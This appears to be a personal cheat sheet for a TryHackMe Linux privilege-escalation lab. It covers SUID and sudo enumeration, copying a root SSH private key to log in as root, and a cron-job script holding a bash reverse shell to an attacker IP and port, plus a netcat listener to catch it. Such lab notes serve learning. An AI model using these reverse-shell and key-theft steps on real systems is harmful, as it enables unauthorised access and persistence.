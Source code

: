 # Privilege Escallation

https://tryhackme.com/r/room/linprivesc

IF base64 has SUID it can be used to read flags directly.


```nc -nlvp [PORT]``` - Start netcat listener to catch shell.

```find / -perm -u=s -type f 2>/dev/null``` - Search for SUID files.

```find / -type f -perm -04000 -ls 2>/dev/null``` - Aternative search for SUID files.

Look for sbin.

```ltrace [prog]``` - Can be used to check what the program is doing.

<details open>
<summary>Scenario 1</summary>

**Horizontal**

```sudo -l``` - Check other other user sudo permissions.

```sudo -u user2 /bin/bash``` - If, for example, user2 has sudo privileges to /bin/bash, you can spin the bash using this command.

**Vertical**

1. ```ls -la``` - Check all directories. Look for .ssh directory.
2. Navigate to .ssh folder.
3. Copy content of id_rsa file.
4. Create file id_rsa on attacker machine and paste the content.
5. ```chmod 600 id_rsa``` - give rights to file.
6. ```ssh root@[IP] -i id_rsa -p [PORT]``` - check if you can login as root.

*IF you have access to authorized_keys file there is also a way to copy into the file your own keys. This way around you can enter as root user with your own private key.

------

</details>

<details open>
<summary>Scenario 2</summary>

```cat /etc/crontab``` - To find cronjobs.

.sh file example.
```#!/bin/bash```
```bash -i >& /dev/tcp/[IP]/[PORT] 0>&1```

Remember to ```chomd +x``` !

</details>

